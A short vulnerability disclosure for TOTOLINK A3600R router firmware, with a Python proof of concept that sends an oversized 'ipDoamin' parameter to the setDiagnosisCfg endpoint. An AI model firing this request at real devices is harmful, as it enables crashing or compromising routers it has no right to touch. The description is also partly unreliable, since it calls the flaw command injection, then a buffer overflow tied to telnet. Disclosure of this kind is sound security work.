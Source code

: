 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setDiagnosisCfg` function. The `v6` variable receives the `ipDoamin` parameter from a POST request. However, since the user can control the input of `ipDoamin`, the telnet service can cause a buffer overflow vulnerability.

![image-20240721001159449](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001159449.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"ipDoamin":"a"*0x1000,"topicurl":"setDiagnosisCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721001329258](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001329258.png)
